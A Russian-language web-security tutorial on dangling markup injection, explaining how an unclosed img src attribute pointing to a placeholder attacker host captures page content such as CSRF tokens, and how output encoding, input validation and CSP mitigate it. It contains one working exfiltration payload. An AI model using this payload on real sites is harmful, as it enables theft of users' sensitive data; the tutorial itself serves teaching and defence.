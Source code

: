 ## 🪝 Висячая инъекция разметки

В этом разделе мы объясним, как происходит внедрение висячей разметки, как работает типичный эксплойт и как предотвратить атаки с использованием висячей разметки.

### ❓ Что такое внедрение висячей разметки?

Внедрение висячей разметки — это метод захвата данных между доменами в ситуациях, когда полноценная атака с использованием межсайтового скриптинга невозможна.

### 🛡️ Как предотвратить атаки с использованием висячей разметки

Вы можете предотвратить атаки с использованием висячей разметки, используя те же общие меры защиты, которые применяются для предотвращения межсайтового скриптинга, такие как кодирование выходных данных и проверка входных данных по прибытии.

Предположим, что приложение небезопасным способом внедряет в свои ответы данные, контролируемые злоумышленником:

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

Предположим также, что приложение не фильтрует и не экранирует символы `>` или `"`. Злоумышленник может использовать следующий синтаксис, чтобы выйти из кавычек значения атрибута и окружающего тега и вернуться в контекст HTML:

```html
">
```

В этой ситуации злоумышленник, естественно, попытается выполнить XSS. Но предположим, что обычная атака XSS невозможна из-за входных фильтров, политики безопасности контента или других препятствий. Здесь все еще может быть возможно осуществить атаку с внедрением висячей разметки, используя полезную нагрузку, подобную следующей:

```html
"><img src='//attacker-website.com?
```

Эта полезная нагрузка создает `<img>` тег и определяет начало атрибута `src`, содержащего URL на сервере злоумышленника. Обратите внимание, что полезная нагрузка злоумышленника не закрывает атрибут `src`, который остается "висящим". Когда браузер анализирует ответ, он будет смотреть вперед, пока не встретит одинарную кавычку, чтобы завершить атрибут. Все до этого символа будет рассматриваться как часть URL и будет отправлено на сервер злоумышленника в строке запроса URL. Любые не буквенно-цифровые символы, включая переносы строк, будут закодированы в URL.

📌 Последствием атаки является то, что злоумышленник может перехватить часть ответа приложения после точки инъекции, которая может содержать конфиденциальные данные. В зависимости от функциональности приложения это могут быть токены CSRF, сообщения электронной почты или финансовые данные.

### 🔗 Атрибуты для висячей разметки

Любой атрибут, который делает внешний запрос, может быть использован для висячей разметки.

Эту следующую лабораторную работу сложно решить, поскольку все внешние запросы заблокированы. Однако есть определенные теги, которые позволяют вам хранить данные и извлекать их с внешнего сервера позже. Решение этой лабораторной работы может потребовать взаимодействия с пользователем.

[![Открыть лабораторную работу](https://img.shields.io/badge/Open-Lab-blue)](01.%20%28Эксперт%29%20Отраженный%20XSS-удар,%20защищенный%20очень%20строгим%20CSP,%20с%20атакой%20на%20висячую%20разметку.md)

Вы также можете смягчить некоторые атаки с использованием висячей разметки, используя политику безопасности контента (CSP). Например, вы можете предотвратить некоторые (но не все) атаки, используя политику, которая запрещает тегам, например, `<img>` загружать внешние ресурсы.

### 📝 Примечание

Браузер Chrome решил бороться с атаками на висячую разметку, предотвращая `<img>` определение тегами URL-адресов, содержащих необработанные символы, такие как угловые скобки и символы новой строки. Это предотвращает атаки, поскольку данные, которые в противном случае были бы захвачены, как правило, содержат эти необработанные символы, поэтому атака блокируется.
